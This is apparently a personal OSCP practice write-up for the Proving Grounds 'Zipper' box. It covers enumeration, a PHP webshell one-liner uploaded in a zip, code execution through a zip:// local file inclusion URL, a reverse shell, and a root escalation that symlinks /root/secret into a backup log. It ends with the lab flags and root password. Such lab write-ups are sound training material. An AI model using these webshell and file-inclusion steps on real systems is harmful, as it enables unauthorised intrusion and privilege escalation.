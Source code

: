 ```yaml
---
Date: 2024-10-19
Course: "[[OSCP]]"
Platform: PG-Practice
Category: Linux
Difficulty: Hard
Status: In progress
IP: 192.168.111.229
Writeup: https://medium.com/@ardian.danny/oscp-practice-series-62-proving-grounds-zipper-b49a52ed8e38
---
```

# Zipper
This entire box was a shitshow from start to finish - I lost count of how many times I reverted it. Lessons learned? Probably to walk the fuck away if you've been at a box for more than 2 hours and don't have initial access. 

I spent nearly 5 hours just trying to get a reverse shell on this, not because I was doing anything wrong, but because the box was broken beyond belief. I resorted to ping to check if it was still up every few minutes because I didn't trust any of it, and the frustration only grew when I finally got a reverse shell but couldn't upgrade from a dumb shell to anything useful. 

At that point I really did step away, hang washing, ride my bike and have lunch, and soon after I came back I realised the "dumb shell" issue was the same as I'd had on an earlier box, and the solution was to upload use a different PHP reverse shell. But I spent literally hours testing different PHP uploads before enough reverts finally fixed whatever was going on behind the scenes, so I needed the break to clear my head and summon the will to start testing new PHP revshells.

Thankfully the very next PHP revshell I uploaded (Ivan Sincek's) worked perfectly, and I could move forward with privesc. After all the bullshit of trying to get initial access, identifying the bachup script didn't take long, and it only took some gentle guidance from the walkthrough to pickup what needed to be done to get `root`.

For all the success of last weekend, this box throughly and repeatedly sat me on my ass, testing my frustration to the absolute limit - not because I could figure out what to do, but because it was so broken I couldn't do even the most basic things without it going down and refusing connections. So going forward, I'm setting a 2hour timelimit on initial access, and another 2 hours for privesc - if I can't manage either of those, then pressing on will have diminishing returns as I become more frustrated and start to make basic mistakes.

## Improved skills
- Time management
- Walking away if initial access isn't achieved within 2hrs
## Used tools
- nmap
- python
- pspy32

---
# Information Gathering
Scanned all TCP ports:
```bash
sudo nmap -sC -sV -oN zipper.nmap 192.168.111.229 -v
```

Enumerated open TCP ports:
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c1:99:4b:95:22:25:ed:0f:85:20:d3:63:b4:48:bb:cf (RSA)
|   256 0f:44:8b:ad:ad:95:b8:22:6a:f0:36:ac:19:d0:0e:f3 (ECDSA)
|_  256 32:e1:2a:6c:cc:7c:e6:3e:23:f4:80:8d:33:ce:9b:3a (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Zipper
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
---
# Enumeration
## Port 22 - SSH (OpenSSH 8.2p1)
No enumeration conducted
## Port 80 - HTTP (Apache 2.4.41)
- Navigated to `http://192.168.111.229:80` and identified online zip archiver `Zipper`
![[Cybersecurity-Resources/images/Pasted image 20241019093604.png]]
- Ran `gobuster dir -u http://192.168.111.229 -w //usr/share/dirb/wordlists/big.txt` to identify web directories
![[Cybersecurity-Resources/images/Pasted image 20241019094203.png]]
- Ran `gobuster dir -u http://192.168.111.229 -w //usr/share/dirb/wordlists/big.txt -x php,html,txt` to identify PHP, TXT & HTML files
![[Cybersecurity-Resources/images/Pasted image 20241019113329.png]]

---
# Exploitation
## Lcoal File Inclusion
- Created `simple_cmd.php` to include PHP command `<?php system($_REQUEST["cmd"]); ?>`
![[Cybersecurity-Resources/images/Pasted image 20241019114213.png]]
- Uploaded `simple_cmd.php` to Zipper and identified zip file save to `http://192.168.111.229/uploads/upload_1729300477.zip`
![[Cybersecurity-Resources/images/Pasted image 20241019114703.png]]
- Navigated to `192.168.111.229/index.php?file=zip://uploads/upload_1729300477.zip%23simple_cmd&cmd=whoami` to obtain RCE via zip wrapper LFI.
![[Cybersecurity-Resources/images/Pasted image 20241019114951.png]]
- Uploaded `reverseshell.php` with embedded PHP reverse shell, and identified file uploaded to `http://192.168.111.229/uploads/upload_1729314505.zip`
![[Cybersecurity-Resources/images/Pasted image 20241019154026.png]]
- Started netcat listener on port `1234` and navigated to `http://192.168.111.229/index.php?file=zip://uploads/upload_1729314505.zip%23reverseshell` to obtain reverse shell
![[Cybersecurity-Resources/images/Pasted image 20241019153949.png]]

---
# Privilege Escalation
## Local Enumeration
- Ran `find / -name local.txt -type f 2>/dev/null` then ran `cat /var/www/local.txt` to print flag `7638c3497498d0b4f3f12eabd89f3269`
![[Cybersecurity-Resources/images/Pasted image 20241019154220.png]]
- Ran `cat /etc/passwd` to identify any other users
![[Cybersecurity-Resources/images/Pasted image 20241019154401.png]]
- Ran `sudo -l` to identify `sudo` privileges - password required
![[Cybersecurity-Resources/images/Pasted image 20241019154453.png]]
- Ran `crontab -l` to identify any crontab data - none found
![[Cybersecurity-Resources/images/Pasted image 20241019154626.png]]
- Ran `ls /var/mail` to check available mail - none found
![[Cybersecurity-Resources/images/Pasted image 20241019154731.png]]
- Navigated to `/var/www/html/uploads` & ran `ls -lah` - identified interesting file `enox.zip --> /root/secret`
![[Cybersecurity-Resources/images/Pasted image 20241019160605.png]]
- Uploaded `pspy32` and ran `timeout 2m ./pspy32` to identify any processes or scripts running
![[Cybersecurity-Resources/images/Pasted image 20241019160635.png]]
- Identified script `/opt/backup.sh` running as `root`
![[Cybersecurity-Resources/images/Pasted image 20241019160813.png]]
- Ran `cat /opt/backup.sh` to identify
```
password=`cat /root/secret`
```
![[Cybersecurity-Resources/images/Pasted image 20241019161447.png]]
## Privilege Escalation vector
- Ran `touch root.txt` to create file in `/var/www/html/uplaods` and ran `ln -s /root/secret root.txt` to link file to `/root/secret`
![[Cybersecurity-Resources/images/Pasted image 20241019161918.png]]
- Waited for script to run, then ran `cat /opt/backups/backup.log` to view `/root/secret` appended to log file, and identified credentials `WildCardsGoingWild`
![[Cybersecurity-Resources/images/Pasted image 20241019162242.png]]
- Ran `su` to switch to `root` and entered credential `WildCardsGoingWild` for password
![[Cybersecurity-Resources/images/Pasted image 20241019162340.png]]
- Ran `cat /root/proof.txt` to print flag `a1c4888b41fc7697e214d03584c54dd5`
![[Cybersecurity-Resources/images/Pasted image 20241019162623.png]]
---
# Trophy & Loot
`local.txt` = `7638c3497498d0b4f3f12eabd89f3269`
`proof.txt` = `a1c4888b41fc7697e214d03584c54dd5`